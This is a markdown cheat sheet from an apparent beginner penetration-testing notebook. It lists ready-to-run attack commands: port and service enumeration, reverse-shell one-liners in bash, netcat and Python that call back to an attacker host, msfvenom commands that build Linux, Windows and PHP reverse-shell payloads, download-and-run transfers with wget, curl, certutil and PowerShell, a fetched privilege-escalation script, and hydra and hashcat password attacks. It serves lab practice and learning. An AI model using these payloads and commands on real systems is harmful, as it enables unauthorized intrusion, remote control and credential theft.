

---
tags:
  - cheatsheet
  - commands
  - reference
  - index
---

# 🧰 Command Cheat Sheet

> [!tip] How placeholders work
> Replace anything in `<angle brackets>` with your value. Better: set variables once and reuse:
> ```bash
> export IP=10.10.10.10        # the target
> export LHOST=10.10.14.5      # YOUR vpn IP (run: ip a | grep tun0)
> export LPORT=4444            # your listener port
> ```



---

## 🔍 1. Scanning & Enumeration

> [!example] Nmap
> ```bash
> sudo nmap -p- --min-rate 5000 -oA allports $IP      # all TCP ports, fast
> sudo nmap -p 22,80,445 -sCV -oA detail $IP          # versions + default scripts
> sudo nmap -sU --top-ports 20 -oA udp $IP            # top UDP ports
> sudo nmap -p- -Pn $IP                                # -Pn = skip ping (host blocks ICMP)
> ```

> [!example] Web directory brute force
> ```bash
> gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt
> gobuster dir -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x php,txt,html
> feroxbuster -u http://$IP -w /usr/share/wordlists/dirb/common.txt   # recursive
> ```

> [!example] SMB
> ```bash
> smbclient -L //$IP/ -N                # list shares, no password (null session)
> smbclient //$IP/share -N              # connect to a share
> enum4linux -a $IP                     # everything: users, shares, OS, policy
> crackmapexec smb $IP -u '' -p ''      # null auth check
> ```

> [!example] Other services
> ```bash
> ftp $IP                               # try user: anonymous, pass: anything
> snmpwalk -v2c -c public $IP           # SNMP (community string 'public')
> dig axfr @$IP <domain>                # DNS zone transfer
> ```

---

## 🐚 2. Reverse Shells (getting a shell back)

> [!tip] Always start your listener FIRST, then trigger the payload.
> ```bash
> nc -lvnp $LPORT                       # your listener (catch the shell here)
> ```

> [!example] Common payloads (run on the TARGET)
> ```bash
> # Bash
> bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
>
> # Netcat (mkfifo, works when -e is disabled)
> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $LHOST $LPORT >/tmp/f
>
> # Python
> python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("'$LHOST'",'$LPORT'));[os.dup2(s.fileno(),f) for f in(0,1,2)];pty.spawn("/bin/bash")'
> ```
> 🔗 Generate any shell at [revshells.com](https://www.revshells.com) (offline copy worth saving!)

> [!success] Stabilise your shell after catching it
> ```bash
> python3 -c 'import pty;pty.spawn("/bin/bash")'   # on target
> # then press Ctrl+Z (background it)
> stty raw -echo; fg                                # on your kali
> export TERM=xterm                                 # on target (enables clear, arrows)
> ```

---

## 🛠️ 3. Payload generation (msfvenom)

> [!example]
> ```bash
> # Linux reverse shell ELF
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f elf -o shell.elf
>
> # Windows reverse shell EXE
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f exe -o shell.exe
>
> # PHP web shell (for file upload / LFI)
> msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$LPORT -f raw -o shell.php
> ```

---

## 📤 4. Transferring files to the target

> [!example] Serve from Kali, grab from target
> ```bash
> # On Kali (serve current folder on port 80)
> python3 -m http.server 80
>
> # On target (Linux)
> wget http://$LHOST/shell.elf -O /tmp/shell.elf
> curl http://$LHOST/shell.elf -o /tmp/shell.elf
>
> # On target (Windows)
> certutil -urlcache -f http://%LHOST%/shell.exe shell.exe
> powershell -c "Invoke-WebRequest http://LHOST/shell.exe -OutFile shell.exe"
> ```

---

## ⬆️ 5. Privilege escalation (quick wins)

> [!example] Linux
> ```bash
> sudo -l                               # what can I run as root? (check GTFOBins!)
> find / -perm -4000 2>/dev/null        # SUID binaries
> id; uname -a; cat /etc/crontab        # who am I, kernel, scheduled jobs
> wget http://$LHOST/linpeas.sh -O /tmp/l.sh; chmod +x /tmp/l.sh; /tmp/l.sh
> ```
> 🔗 Look up any binary at [GTFOBins](https://gtfobins.github.io)

> [!example] Windows
> ```cmd
> whoami /priv                          :: check privileges (SeImpersonate = juicy)
> systeminfo                            :: OS version for kernel exploits
> ```
> 🔗 Look up binaries at [LOLBAS](https://lolbas-project.github.io)

---

## 🔓 6. Password attacks

> [!example]
> ```bash
> hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"
> hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt      # -m 0 = MD5
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
> ```
> 🔗 Identify a hash type: `hashid '<hash>'` · hashcat mode list at [hashcat.net](https://hashcat.net/wiki/doku.php?id=example_hashes)

---

## Related
- [[📖 Start Here — Beginner Guide]]
- [[🔣 Encoding Reference]]
- [[⚠️ Common Errors & Troubleshooting]]

> [!info] Section: [[🏠 Home]]
